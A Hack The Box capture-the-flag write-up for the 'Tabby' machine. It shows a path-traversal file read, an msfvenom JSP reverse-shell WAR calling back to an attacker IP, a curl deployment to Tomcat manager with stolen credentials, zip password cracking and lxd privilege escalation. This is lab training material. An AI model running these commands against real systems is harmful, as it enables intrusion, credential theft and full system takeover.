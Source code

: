 # Linux Hack The Box Writeup for Tabby

## Enumeration

First, we run the old trusty nmap:

```bash
sudo nmap 10.10.10.194 -p 80,8080,22 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.194 -p-` to get the ports 22,80 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see that this box has is running a ssh-server, a apache webserver and a tomcat instance. The versions are all latest, so there is nothing to find there. Let's take a look at the webpages.

We start at port 80, or the "normal" webpage.

![webpage](assets/images/htb/webpage.png)

It looks like a page from a hosting company. Let's fuzz it some more!

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.194/ -x html,php,txt
```

Here we use gobuster to find all the webpages on the server. The wordlist is dirb's common.txt, a good fuzzing list that isn't very long. Most pages can be found with this list. Then we state the website and last we state the file extensions it should look for.

This is the result (minus `.htaccess` pages).

```bash
/assets (Status: 301)
/favicon.ico (Status: 200)
/files (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/news.php (Status: 200)
/Readme.txt (Status: 200)
/server-status (Status: 403)
```

A `readme.txt` is often pretty interesting.

![readme.txt](assets/images/htb/readme.png)

Mmmmhh, bummer. No version numbers or update log. We are dealing with a `html/css` one-pager. Alright, let's look at the other pages. The only other non-default is news.php.

![new](assets/images/htb/news.png)

Okay, a page that apologises for a recent databreach, ironic. Let's take a better look at that url:

```url
http://10.10.10.194/news.php?file=statement
```

File equals statement? That looks like a arbitrary file read vulnerability to me. Let's test it with a file that everyone should be able to access:

```url
http://10.10.10.194/news.php?file=../../../../etc/passwd
```

![read](assets/images/htb/read.png)

Terrific, we can read files. I brought the request over to burp-suite for easier checking and checked whether there are any limits on the read, by checking the `news.php` file:

![burp](assets/images/htb/burp.png)

Alright, before we continue, let's see why we can read files. The php file get the GET-parameter named file. Then it puts `files/` in front of it and reads the file. Why can we read files outside of the folders files? `fopen` reads a file from a given path, without any checks or sanitation. If we back out of the folder `files` with `..` we are in the folder with `news.php`, probaly in the folder `/var/www/html` as this is the default path for Apache. So, if we keep going back we reach the system's root and we can go to any path from there. I choose to check `/etc/passwd` because this file is almost always there and readable for all users.

So we can read files without limits. Great! But we dont't really have a lot to check right now, let's check the tomcat page first.

![tomcat_main](assets/images/htb/tomcat_main.png)

Basic Tomcat installation, let's check the admin-pages.

![tomcat_login](assets/images/htb/tomcat_login.png)

Ofcourse, we need a password, and we don't have one, *yet*. We can abuse the file-read of the webpage to read the passwords of Tomcat!

It took some fuzzing, because the Tomcat config foler is not installed in the default folder, but we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

![tomcat-users](assets/images/htb/tomcat-users.png)

Alright, so now with this user we can log into Tomcat. However, looking at the roles of the user, we can only use the gui of admin. On the admin-page you can manage virtual hosts. Something we don't want or need. We need to access the manager system so we can upload a shell. We can, but not with the easy gui, we only have text-rights. This means we need to bring our shell only through a HTTP-request.

## Exploitation

First, we generate our payload, Tomcat uses war files to bring it's webpages online, so we make a war-shell using `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8090 -f war > shell.war
```

Then we start our netcat listener to catch the shell once it is uploaded:

```bash
nc -lnvp
```

Then we upload the payload to the server using our new credentials.

![postman](assets/images/htb/postman.png)

Here I am using postman to upload the .war file, but we can als use a curl command (generated by postman):

```bash
curl --location --request PUT 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true' \
--header 'Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==' \
--form 'file=@/home/kali/htb/tabby/shell.war'
```

Then we just navigate to `http://10.10.10.194:8080/shell` and we catch a reverse shell!

I then always use some simple steps to upgrade the shell to a proper stty, so I can use taba and Ctrl+C.

![shell](assets/images/htb/shell.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
enter 2x
export TERM=xterm
```

## Enumeration 2

After some searching and running [LinPeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find that there are some more interesting files in `/var/www/html/files`. A zip archive to be exact. It appears the be a back-up of some sort. After trying to extract it, it seems to be password-protected. I moved it over to my local machine and ran `fcrackzip` to find it's password.

```bash
fcrackzip --u -D -p '/usr/share/wordlists/rockyou.txt' out.zip
```

![crack](assets/images/htb/crack.png)

And the password is `admin@it`. The archive itself contains nothing of interest, but let's try the new password and the user `ash`.

![user](assets/images/htb/user.png)

## Exploitation 2

So, now let's get to root. I forgot to screenshot this, but the user ash is in the `lxd` group. Lxd is a technology similair to docker, and if you're in this group, you can spawn a root-shell. Using [this website](https://www.exploit-db.com/exploits/46978) I build the image on my local machine and transfered it to my victim. Then I executed this script, which creates the container with an unsafe flag and connects the file-systems. This way you have a root shell on the container, but you can also read files on the host. This way we get the root flag!

![root](assets/images/htb/root.png)

And thats it!